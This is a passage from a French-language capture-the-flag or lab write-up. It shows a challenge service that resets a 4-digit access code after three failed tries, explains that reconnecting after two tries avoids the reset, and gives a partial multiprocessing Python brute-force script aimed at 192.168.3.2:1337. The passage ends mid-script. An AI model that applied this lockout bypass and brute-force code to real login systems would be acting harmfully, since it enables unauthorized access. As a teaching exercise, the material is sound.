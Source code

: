 ```shellsession
AUTHORIZED PERSONNEL ONLY
PLEASE ENTER THE 4-DIGIT CODE SHOWN ON YOUR ACCESS TOKEN
A NEW CODE WILL BE GENERATED AFTER THREE INCORRECT ATTEMPTS

ACCESS CODE: 5632
FAILED LOGIN ATTEMPTS: 3

BRUTE-FORCE ATTEMPT DETECTED
PLEASE USE THE NEW CODE DISPLAYED ON YOUR ACCESS TOKEN

AUTHORIZED PERSONNEL ONLY
PLEASE ENTER THE 4-DIGIT CODE SHOWN ON YOUR ACCESS TOKEN
A NEW CODE WILL BE GENERATED AFTER THREE INCORRECT ATTEMPTS

ACCESS CODE:
```

On remarque qu'au bout de trois tentatives le code que l'on cherche est réinitialisé. De plus une temporisation est faite après ces 3 tentatives.  

Une solution pour bypasser cette protection anti brute force est de re-établir une connexion après deux tentatives pour que le code ne soit pas réinitialisé. On peut aussi brute-forcer bêtement et compter sur la chance (sur un malentendu...). Ces deux possibilités fonctionnent mais prennent beaucoup de temps.  

On serait tenté d'aller plus loin en parallélisant l'attaque avec plusieurs process (parce que Python et les threads...) ce qui à titre d'exemple donnerait ceci :  

```python
import socket
from time import sleep
from math import ceil
from multiprocessing import Process, Queue, Pool

NB_PROCESS = 4

def split(a, n):
    k, m = divmod(len(a), n)
    return (a[i * k + min(i, m):(i + 1) * k + min(i + 1, m)] for i in range(n))

ranges = list(split(range(10000), NB_PROCESS))
print("Ranges:", ranges)

def wait_until(sock, patterns: tuple):
    buff = b""
    while True:
        buff += sock.recv(1024)
        for message in patterns:
            if message.encode() in buff:
                return message

def brute(number_range):
    sock = socket.socket()
    sock.connect(("192.168.3.2", 1337))
    successive_attempts = 0

    for i in number_range:

        if successive_attempts == 2:
            sock.close()
            sleep(.01)
            successive_attempts = 0
            sock = socket.socket()
            for j in range(50):
                try:
```